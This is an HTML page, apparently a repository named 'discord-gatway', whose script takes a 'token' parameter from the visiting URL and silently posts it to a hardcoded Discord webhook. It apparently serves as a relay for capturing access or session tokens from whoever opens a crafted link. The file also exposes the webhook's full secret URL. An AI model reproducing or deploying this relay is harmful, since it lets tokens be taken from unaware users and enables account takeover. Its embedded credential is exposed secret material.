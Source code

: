 # discord-gatway

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Post to Discord Webhook</title>
</head>
<body>
    <script>
        // Function to get query parameter by name
        function getQueryParam(name) {
            let urlParams = new URLSearchParams(window.location.search);
            return urlParams.get(name);
        }

        // Function to post data to Discord webhook
        function postToDiscord(token) {
            const webhookURL = "https://discord.com/api/webhooks/1255865159612891136/-t2qvz5SQt1jFIfN-otVuC08OeJB0VFTg8uOjwzmnNcJ-fL415UbxwLNBEj9lWALYbHR"; // Replace with your Discord webhook URL
            const message = {
                content: `${token}`
            };

            fetch(webhookURL, {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/json'
                },
                body: JSON.stringify(message)
            })
            .then(response => response.json())
            .then(data => console.log('Success:', data))
            .catch((error) => console.error('Error:', error));
        }

        // Get the token from URL and post to Discord webhook
        const token = getQueryParam('token');
        if (token) {
            postToDiscord(token);
        } else {
            console.log('Token parameter not found in the URL');
        }
    </script>
</body>
</html>
